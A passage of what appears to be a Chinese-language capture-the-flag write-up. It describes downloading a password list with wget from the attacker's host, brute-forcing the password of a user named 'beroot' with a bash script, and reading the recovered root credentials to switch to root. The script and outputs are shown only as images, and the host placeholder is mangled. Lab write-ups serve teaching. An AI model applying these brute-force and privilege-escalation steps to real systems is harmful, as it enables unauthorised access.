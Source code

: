 wget http:// <host ip="">/</host>

现在，我们可以编写一个简单的 bash 脚本来遍历我们的密码列表，并暴力破解 beroot 的密码。

![](img/14f5ca6322a7e716994938f1675a20df.png)

暴力破解的 bash 脚本

向脚本(chmod +x)提供执行权限并执行它。

一旦完成，我们会得到另一个名为 **rootcreds** 的文件。

![](img/24d1197b1b1806716471caa65b29d3f5.png)

根证书

我们可以通过查看该文件来获取 root 用户的凭据。

![](img/8f7b881b9955dbdb8615379b4b2039b1.png)

根凭据

让我们继续将用户更改为 root，并提供上述凭据。

![](img/b152814834d290f84aabe7c83ba220cb.png)
